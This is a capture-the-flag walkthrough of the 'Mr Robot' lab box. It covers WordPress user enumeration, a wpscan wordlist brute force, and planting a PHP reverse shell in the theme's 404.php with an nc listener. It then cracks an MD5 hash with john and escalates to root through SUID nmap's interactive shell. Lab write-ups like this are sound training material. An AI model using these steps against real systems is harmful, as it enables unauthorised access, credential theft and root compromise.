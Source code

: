 # [cd ../](../index.md)
# Mr Robot CTF
> Based on the Mr. Robot show, can you root this box?

# Start
## Enumeration
### Nmap
[nmap file](nmaps.txt)
Ports are: 22, 80 and 443

### Dirsearch
[dirsearch file](dirsearch.txt)  
![dirsearch](dirsearch.png)

### Further investigation
- Lets go to /robots.txt  
  U can see there is `key-1-of-3.txt`. Go to `/key-1-of-3.txt` and u got the first flag.  
  U can also see there is a `fsocity.dic` file. This is a big wordlist. Just save it with `wget` or `curl -LO`

- Just go every link u get in the dirsearch search  
  ![readme](readme.png) :D  
  `/Image` seems to be a blog of `user`
  `/wp-login.php` is a wordpress login page
  
- Guessing the `/wp-login.php` username  
  Try to guess the username cuz `user` or `admin` returns   

  > ERROR: Invalid username.

  So try `elliot` cuz this is a 1337 Mr R0b0t room :D

  > ERROR: The password you entered for the username elliot is incorrect.  

  Ohohooooooo the user is `elliot` and we have a [fsocity.dic](files/fsocity.dic) file.

- Cracking the `/wp-login.php`
  We have to crack `elliot` profile with `fsocity.dic` we got earlier.
  Lets shorten this wordlist
  ```
  sort -u fsocity.dic > fsocity_sorted.dic
  ```
  Now we have the shortened [fsocity_sorted.dic](files/fsocity_sorted.dic)
  
  CR4CK TH1S:
  ```
  wpscan --url http://10.10.125.176 -P fsocity_sorted.dic -U elliot
  ```
  ![wpscan](wpscan.png)  
  Btw there is the whole wpscan [output](wpscan.txt) in case if u need it.  
  We got the CREDS!! `elliot`:`ER28-0652`  

- Logging in, getting a shell  
  So we are in elliot's profile.
  We have to find an iteresting thing we can use to get a shell.  
  We can edit the `404.php` file ( *Appearance –> Editor –> 404.php* )
  Just paste a `phpinfo();` in the beggining of the file.
  ![404](404.png)  
  AAAAANND We got `php code execution` !!!!  
  ![executed](executed.png)  
  Now we need a revshell:
    - Go to Pentestmonkey's php reverse shell on [github](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
    - Copy it and paste it to the 404.php  
      Change IP and PORT to yours!  
      ![ip-port](ip-port.png)
    - Go to `/404.php` while ur nc listener is set up ( `nc -lvnp 1337` )

  GOT THA SHELL BOIIIII!  
  ![shell](shell.png)  
  We are user `daemon`

## We Are in and we need the second flag!
- Get a normal shell with 

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
- The second flag is in `/home/robot/key-2-of-3.txt`
  But we cant cat it ):  
  ![permission](permission.png)  
  If we go `/home/robot` there is a file called `password.raw-md5` and it has the raw md5 hash of `robot`'s password.  
  W3 H4V3 2 Cr4Ck 17

- Cracking the [`password.raw-md5`](files/password.raw-md5)

  ```
  john password.raw-md5 --format=Raw-MD5 --wordlist=~/tools/wordlists/rockyou.txt
  ```
  And we got the password of the `robot` user. ( `robot`:`abcdefghijklmnopqrstuvwxyz` )  
  ![robot's password](password.png)

- Getting the second flag
  Just change user to **robot** with `su robot` and u can now cat the flag
  ![second flag](flag2.png)

## Privesc to root
- We have to search for suid executables

```
find / -perm +6000 2>/dev/null | grep '/bin/'
```
Oh there is `/usr/local/bin/nmap`
- We can run nmap interactively with `nmap --interactive`  
  We are in the nmap shell now. Hit `h` for help.  
  We can see we are able to execute system commands with `!`  
  Just see how we are with `!id` and then `!cat /root/key-3-of-3.txt` and we got the flag!  
  ![rooted](rooted.png)

